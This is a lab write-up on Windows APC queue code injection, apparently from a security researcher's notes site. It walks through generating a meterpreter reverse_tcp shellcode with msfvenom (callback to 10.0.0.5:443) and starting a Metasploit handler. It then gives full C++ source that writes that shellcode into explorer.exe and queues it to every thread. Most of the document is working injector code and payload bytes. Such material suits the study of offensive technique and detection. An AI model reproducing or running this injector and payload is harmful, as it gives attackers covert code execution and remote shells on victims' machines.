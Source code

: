 # APC Queue Code Injection

This lab looks at the APC (Asynchronous Procedure Calls) queue code injection - a well known technique I had not played with in the past.

Some simplified context around threads and APC queues:

* Threads execute code within processes
* Threads can execute code asynchronously by leveraging APC queues
* Each thread has a queue that stores all the APCs
* Application can queue an APC to a given thread (subject to privileges)
* When a thread is scheduled, queued APCs get executed
* Disadvantage of this technique is that the malicious program cannot force the victim thread to execute the injected code - the thread to which an APC was queued to, needs to enter/be in an [alertable](apc-queue-code-injection.md#alertable-state) state (i.e [`SleepEx`](https://msdn.microsoft.com/en-us/library/ms686307\(v=VS.85\).aspx)), but you may want to check out [Shellcode Execution in a Local Process with QueueUserAPC and NtTestAlert](shellcode-execution-in-a-local-process-with-queueuserapc-and-nttestalert.md)

## Execution

A high level overview of how this lab works:

* Write a C++ program apcqueue.exe that will:
  * Find explorer.exe process ID
  * Allocate memory in explorer.exe process memory space
  * Write shellcode to that memory location
  * Find all threads in explorer.exe
  * Queue an APC to all those threads. APC points to the shellcode
* Execute the above program
* When threads in explorer.exe get scheduled, our shellcode gets executed
* Rain of meterpreter shells

Let's start by creating a meterpreter shellcode to be injected into the victim process:

{% code title="attacker@kali" %}
```csharp
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.0.0.5 LPORT=443 -f c
```
{% endcode %}

![](<../../.gitbook/assets/Annotation 2019-05-26 111814.png>)

I will be injecting the shellcode into `explorer.exe` since there's usually a lot of thread activity going on, so there is a better chance to encounter a thread in an alertable state that will kick off the shellcode. I will find the process I want to inject into with `Process32First` and `Process32Next` calls:

![](<../../.gitbook/assets/Annotation 2019-05-26 152927.png>)

Once explorer PID is found, we need to get a handle to the explorer.exe process and allocate some memory for the shellcode. The shellcode is written to explorer's process memory and additionally, an APC routine, which now points to the shellcode, is declared:

![](<../../.gitbook/assets/Annotation 2019-05-26 151203.png>)

If we compile and execute `apcqueue.exe`, we can indeed see the shellcode gets injected into the process successully:

![](<../../.gitbook/assets/Annotation 2019-05-26 133126.png>)

A quick detour - the below shows a screenshot from the Process Hacker where our malicious program has a handle to explorer.exe - good to know for debugging and troubleshooting:

![](<../../.gitbook/assets/Annotation 2019-05-26 133312.png>)

Back to the code - we can now enumerate all threads of explorer.exe and queue an APC (points to the shellcode) to them:

![sleep for some throttling](<../../.gitbook/assets/Annotation 2019-05-26 151757.png>)

Switching gears to the attacking machine - let's fire up a multi handler and set an `autorunscript` to migrate meterpreter sessions to some other process before they die with the dying threads:

{% code title="attacker@kali" %}
```csharp
msfconsole -x "use exploits/multi/handler; set lhost 10.0.0.5; set lport 443; set payload windows/x64/meterpreter/reverse_tcp; exploit"
set autorunscript post/windows/manage/migrate
```
{% endcode %}

Once the `apcqueue` is compiled and run,  a meterpreter session is received - the technique worked:

![](<../../.gitbook/assets/Annotation 2019-05-26 134126.png>)

## States

As mentioned earlier, in order for the APC code injection to work, the thread to which an APC is queued, needs to be in an `alertable` state.&#x20;

To get a better feel of what this means, I created another project called `alertable` that only did one thing - slept for 60 seconds. The application was sent to sleep using (note the important second parameter):

```cpp
DWORD SleepEx(
  DWORD dwMilliseconds,
  BOOL  bAlertable
);
```

Let's put the new project to sleep in both alertable and non-alertable states and see what heppens when an APC is queued to it.

### Alertable State

Let's compile the `alertable.exe` binary with `bAleertable = true` first and then launch the `apcqueue.exe`.&#x20;

Since `alertable.exe` was in an alertable state, the code got executed immediately and a meterpreter session was established:

![](../../.gitbook/assets/apcqueueinjection.gif)

### Non-Alertable State

Now let's recompile `alertable.exe` with `bAlertable == false` and try again - shellcode does not get executed:

![](../../.gitbook/assets/apcqueueinjection-nonalertable.gif)

## Powershell -sta

An interesting observation is that if you try injecting into powershell.exe which was started with a `-sta` switch (Single Thread Apartment), we do not need to spray the APC across all its threads - main thread is enough and gives a reliable shell:

![](../../.gitbook/assets/apc-powershell.gif)

Note that the injected powershell process becomes unresponsive.&#x20;

## Code

{% code title="apcqueue.cpp" %}
```cpp
#include "pch.h"
#include <iostream>
#include <Windows.h>
#include <TlHelp32.h>
#include <vector>

int main()
{
	unsigned char buf[] = "\xfc\x48\x83\xe4\xf0\xe8\xcc\x00\x00\x00\x41\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52\x18\x48\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52\x20\x8b\x42\x3c\x48\x01\xd0\x66\x81\x78\x18\x0b\x02\x0f\x85\x72\x00\x00\x00\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x67\x48\x01\xd0\x50\x8b\x48\x18\x44\x8b\x40\x20\x49\x01\xd0\xe3\x56\x48\xff\xc9\x41\x8b\x34\x88\x48\x01\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01\xc1\x38\xe0\x75\xf1\x4c\x03\x4c\x24\x08\x45\x39\xd1\x75\xd8\x58\x44\x8b\x40\x24\x49\x01\xd0\x66\x41\x8b\x0c\x48\x44\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48\x8b\x12\xe9\x4b\xff\xff\xff\x5d\x49\xbe\x77\x73\x32\x5f\x33\x32\x00\x00\x41\x56\x49\x89\xe6\x48\x81\xec\xa0\x01\x00\x00\x49\x89\xe5\x49\xbc\x02\x00\x01\xbb\x0a\x00\x00\x05\x41\x54\x49\x89\xe4\x4c\x89\xf1\x41\xba\x4c\x77\x26\x07\xff\xd5\x4c\x89\xea\x68\x01\x01\x00\x00\x59\x41\xba\x29\x80\x6b\x00\xff\xd5\x6a\x0a\x41\x5e\x50\x50\x4d\x31\xc9\x4d\x31\xc0\x48\xff\xc0\x48\x89\xc2\x48\xff\xc0\x48\x89\xc1\x41\xba\xea\x0f\xdf\xe0\xff\xd5\x48\x89\xc7\x6a\x10\x41\x58\x4c\x89\xe2\x48\x89\xf9\x41\xba\x99\xa5\x74\x61\xff\xd5\x85\xc0\x74\x0a\x49\xff\xce\x75\xe5\xe8\x93\x00\x00\x00\x48\x83\xec\x10\x48\x89\xe2\x4d\x31\xc9\x6a\x04\x41\x58\x48\x89\xf9\x41\xba\x02\xd9\xc8\x5f\xff\xd5\x83\xf8\x00\x7e\x55\x48\x83\xc4\x20\x5e\x89\xf6\x6a\x40\x41\x59\x68\x00\x10\x00\x00\x41\x58\x48\x89\xf2\x48\x31\xc9\x41\xba\x58\xa4\x53\xe5\xff\xd5\x48\x89\xc3\x49\x89\xc7\x4d\x31\xc9\x49\x89\xf0\x48\x89\xda\x48\x89\xf9\x41\xba\x02\xd9\xc8\x5f\xff\xd5\x83\xf8\x00\x7d\x28\x58\x41\x57\x59\x68\x00\x40\x00\x00\x41\x58\x6a\x00\x5a\x41\xba\x0b\x2f\x0f\x30\xff\xd5\x57\x59\x41\xba\x75\x6e\x4d\x61\xff\xd5\x49\xff\xce\xe9\x3c\xff\xff\xff\x48\x01\xc3\x48\x29\xc6\x48\x85\xf6\x75\xb4\x41\xff\xe7\x58\x6a\x00\x59\x49\xc7\xc2\xf0\xb5\xa2\x56\xff\xd5";

	HANDLE snapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS | TH32CS_SNAPTHREAD, 0);
	HANDLE victimProcess = NULL;
	PROCESSENTRY32 processEntry = { sizeof(PROCESSENTRY32) };
	THREADENTRY32 threadEntry = { sizeof(THREADENTRY32) };
	std::vector<DWORD> threadIds;
	SIZE_T shellSize = sizeof(buf);
	HANDLE threadHandle = NULL;

	if (Process32First(snapshot, &processEntry)) {
		while (_wcsicmp(processEntry.szExeFile, L"explorer.exe") != 0) {
			Process32Next(snapshot, &processEntry);
		}
	}
	
	victimProcess = OpenProcess(PROCESS_ALL_ACCESS, 0, processEntry.th32ProcessID);
	LPVOID shellAddress = VirtualAllocEx(victimProcess, NULL, shellSize, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
	PTHREAD_START_ROUTINE apcRoutine = (PTHREAD_START_ROUTINE)shellAddress;
	WriteProcessMemory(victimProcess, shellAddress, buf, shellSize, NULL);

	if (Thread32First(snapshot, &threadEntry)) {
		do {
			if (threadEntry.th32OwnerProcessID == processEntry.th32ProcessID) {
				threadIds.push_back(threadEntry.th32ThreadID);
			}
		} while (Thread32Next(snapshot, &threadEntry));
	}
	
	for (DWORD threadId : threadIds) {
		threadHandle = OpenThread(THREAD_ALL_ACCESS, TRUE, threadId);
		QueueUserAPC((PAPCFUNC)apcRoutine, threadHandle, NULL);
		Sleep(1000 * 2);
	}
	
	return 0;
}
```
{% endcode %}

## References

{% embed url="https://blogs.microsoft.co.il/pavely/2017/03/14/injecting-a-dll-without-a-remote-thread/" %}

{% embed url="http://rinseandrepeatanalysis.blogspot.com/2019/04/early-bird-injection-apc-abuse.html?m=1" %}

{% embed url="https://docs.microsoft.com/en-us/windows/desktop/sync/asynchronous-procedure-calls" %}

{% embed url="https://docs.microsoft.com/en-us/windows/desktop/api/processthreadsapi/nf-processthreadsapi-queueuserapc" %}

